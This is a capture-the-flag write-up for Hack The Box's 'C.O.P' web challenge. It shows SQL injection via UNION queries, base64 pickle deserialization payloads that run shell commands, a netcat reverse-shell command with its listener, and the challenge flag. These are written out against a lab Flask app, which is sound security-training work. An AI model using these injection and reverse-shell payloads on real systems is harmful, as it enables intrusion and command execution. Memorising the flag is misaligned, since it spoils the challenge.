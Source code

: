 # Writeup "C.O.P"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                           </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/cop              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-c-o-p-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                          </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                   </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-09-28                                             </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-12-16                                             </td></tr>
</table>

## Description

> The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

## Solution

We receive an IP and port to a server and a zip file containing the _Python Flask_ application deployed on the server. According to the `Dockerfile`, the application is deployed in the `/app` directory and the `supervisord.conf` file lists paths to log files. The page displays a basic pickle-themed webshop. Since the application uses the Python package `pickle`, this might be a hint.

<p align="center">
   <img src="includes/cop-01.png" />
</p>

The page does not seem have any fields for user input and no cookies are used. The only place where any parameter can be manipulated is the endpoint for a product detail page, `/view/<product_id>`. When we inspect the files `routes.py`, `models.py`, and `database.py`, we see that the value of `<product_id>` is used for a _sqlite3_ database query without ever being sanitized! As a test, we try the payload `/view/3';--` and the system displays the page correctly:

<p align="center">
   <img src="includes/cop-02.png" />
</p>

Now to find out how to exploit the vulnerability. As a first step, we try to execute the following SQLite commands using the vulnerability:

```
/view/3';INSERT INTO products (data) VALUES ("gASVgwAAAAAAAACMCF9fbWFpbl9flIwESXRlbZSTlCmBlH2UKIwEbmFtZZSMClRlc3QgVGl0bGWUjAtkZXNjcmlwdGlvbpSMCVRlc3QgRGVzY5SMBWltYWdllIwfL3N0YXRpYy9pbWFnZXMvcGlja2xlX3NoaXJ0LmpwZ5SMBXByaWNllIwDOTk5lHViLg==");--
/view/3';UPDATE products SET data='gASVgwAAAAAAAACMCF9fbWFpbl9flIwESXRlbZSTlCmBlH2UKIwEbmFtZZSMClRlc3QgVGl0bGWUjAtkZXNjcmlwdGlvbpSMCVRlc3QgRGVzY5SMBWltYWdllIwfL3N0YXRpYy9pbWFnZXMvcGlja2xlX3NoaXJ0LmpwZ5SMBXByaWNllIwDOTk5lHViLg==' WHERE id=3;--
```

However, this returns an internal server error. When we run the application locally using docker, we get the following error message in the terminal:

``` bash
sqlite3.Warning: You can only execute one statement at a time.
```

Only one query can be used at a time; query stacking is therefore not possible. We try to use a `UNION` statement instead:

``` sql
http://127.0.0.1:1337/view/1' AND FALSE UNION SELECT data FROM products WHERE id='3';--
```

This works and displys the "Dill Pickle Jar" page instead of the "Pickle Shirt" page. Now we have to include a payload. Further analysis of the source code shows that the show's products are stored in the database as pickled objects. When they are retrieved for generating a web page, these pickled objects are unpickled without any security precautions. The unpickling happens using the custom template filter `pickle` defined in `app.py`.

A web search for _"flask pickle vulnerability"_ gives us a web page describing pickeling in Python and why it is vulnerable when improperly used and how to exploit it [^1]. A second page implements a quick way to generate a suitable payload [^2]. Using this tool, we generate a first test payload:

``` bash
> python3 exploit.py "uname -a"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVnVuYW1lIC1hCnAxCnRwMgpScDMKLg==
```

We adapt our query so that the page receives our payload instead of the product[^4]. As soon as the page unpickles the payload, it will get executed:

``` sql
http://127.0.0.1:1337/view/1' AND FALSE UNION VALUES ("Y3Bvc2l4CnN5c3RlbQpwMAooVnVuYW1lIC1hCnAxCnRwMgpScDMKLg==");--
```

We are successful! In the docker output, we see the output of our command:

<p align="center">
   <img src="includes/cop-03.png" />
</p>

After a lot of experimenting[^3], we find a working combination for a netcat shell. The command executed on the target is:

``` bash
> python3 exploit.py "nc host.docker.internal 1234 -e /bin/sh"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVm5jIGhvc3QuZG9ja2VyLmludGVybmFsIDEyMzQgLWUgL2Jpbi9zaApwMQp0cDIKUnAzCi4=
```

It is very important to use `host.docker.internal` as the target host for the reverse shell. Furthermore, it was not possible to use `/bin/sh -i` as command since this would always trigger an error on the target machine.

On the host machine, the following command was executed:

``` bash
> nc -l -p 1234
```

This resulted in a working reverse shell:

<p align="center">
   <img src="includes/cop-04.png" />
</p>

However, when trying to replicate this solution on the real system, we soon realize that this solution does not work. Apparently, it is not possible to access external IP addresses from a Docker container.

This setback leads to the realization that a reverse shell had been overkill. Since we can already execute arbitrary shell commands at the target machine, we can just copy the flag to a location where we can access it on the web site. We create a new payload:

``` bash
> python3 exploit.py "cp /app/flag.txt /app/application/static/flag.txt"
Payload (Base64) => Y3Bvc2l4CnN5c3RlbQpwMAooVmNwIC9hcHAvZmxhZy50eHQgL2FwcC9hcHBsaWNhdGlvbi9zdGF0aWMvZmxhZy50eHQKcDEKdHAyClJwMwou
```

And after calling the vulnerable page once using this payload, we find the flag where we just put it:

<p align="center">
   <img src="includes/cop-05.png" />
</p>

The flag is therefore:

```
HTB{n0_m0re_p1ckl3_pr0paganda_4u}
```

### Sources

[^1]: https://davidhamann.de/2020/04/05/exploiting-python-pickle/
[^2]: https://github.com/shafdo/pickle-payload-gen-python3
[^3]: https://www.varonis.com/blog/netcat-commands
[^4]: https://www.sqlitetutorial.net/sqlite-union/

